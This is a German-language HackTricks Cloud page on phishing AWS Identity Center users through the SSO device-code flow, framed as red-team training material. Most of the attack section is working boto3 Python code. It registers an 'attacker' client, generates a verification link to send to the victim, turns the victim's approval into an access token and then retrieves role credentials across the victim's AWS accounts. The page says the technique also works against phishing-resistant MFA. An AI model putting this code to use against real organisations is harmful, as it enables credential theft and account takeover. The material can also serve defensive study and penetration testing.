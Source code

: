 # AWS - Identitätszentrum & SSO Unauthentifizierte Aufzählung

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>

## AWS Gerätecode-Phishing

Ursprünglich vorgeschlagen in [**diesem Blog-Beitrag**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), ist es möglich, einem Benutzer über AWS SSO einen **Link** zu senden, der es dem **Benutzer ermöglicht, wenn er zustimmt**, dass der Angreifer einen **Token erhält, um den Benutzer zu imitieren** und auf alle Rollen zuzugreifen, auf die der Benutzer im **Identitätszentrum** zugreifen kann.

Um diesen Angriff durchzuführen, sind folgende Voraussetzungen erforderlich:

* Das Opfer muss das **Identitätszentrum** verwenden.
* Der Angreifer muss das **Subdomäne** kennen, die vom Opfer verwendet wird `<victimsub>.awsapps.com/start`

Nur mit diesen Informationen wird der **Angreifer in der Lage sein, dem Benutzer einen Link zu senden**, der, wenn **akzeptiert**, dem **Angreifer Zugriff auf das AWS-Benutzerkonto** gewährt.

### Angriff

1. **Ermitteln der Subdomäne**

Der erste Schritt des Angreifers besteht darin, die Subdomäne des Opferunternehmens im Identitätszentrum herauszufinden. Dies kann über **OSINT** oder **Raten + BF** erfolgen, da die meisten Unternehmen hier ihren Namen oder eine Variation ihres Namens verwenden.

Mit diesen Informationen ist es möglich, die Region zu erhalten, in der das Identitätszentrum konfiguriert wurde:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generieren Sie den Link für das Opfer & Senden Sie ihn**

Führen Sie den folgenden Code aus, um einen AWS SSO-Anmelde-Link zu generieren, damit das Opfer sich authentifizieren kann.\
Führen Sie für die Demo diesen Code in einer Python-Konsole aus und beenden Sie sie nicht, da Sie später einige Objekte benötigen, um das Token zu erhalten:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Warten Sie, bis das Opfer es akzeptiert**

Wenn das Opfer bereits bei AWS angemeldet war, muss es nur die Berechtigungen akzeptieren. Wenn nicht, muss es sich anmelden und dann die Berechtigungen akzeptieren.\
So sieht die Aufforderung heutzutage aus:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Holen Sie sich das SSO-Zugriffstoken**

Wenn das Opfer die Aufforderung akzeptiert hat, führen Sie diesen Code aus, um ein SSO-Token zu generieren und sich als Benutzer auszugeben:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Das SSO-Zugriffstoken ist **8 Stunden lang gültig**.

5. **Benutzer impersonieren**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing des unphisable MFA

Es macht Spaß zu wissen, dass der vorherige Angriff **sogar funktioniert, wenn ein "unphisable MFA" (webAuth) verwendet wird**. Dies liegt daran, dass der vorherige **Workflow die verwendete OAuth-Domäne nie verlässt**. Anders als bei anderen Phishing-Angriffen, bei denen der Benutzer die Login-Domäne ersetzen muss, ist im Fall des Gerätecode-Workflows ein **Code von einem Gerät bekannt** und der Benutzer kann sich auch auf einem anderen Gerät anmelden. Wenn die Aufforderung akzeptiert wird, kann das Gerät nur durch **Kenntnis des ursprünglichen Codes** in der Lage sein, **Anmeldeinformationen** für den Benutzer abzurufen.

Für weitere Informationen dazu [**überprüfen Sie diesen Beitrag**](https://mjg59.dreamwidth.org/62175.html).

### Automatische Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Referenzen

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
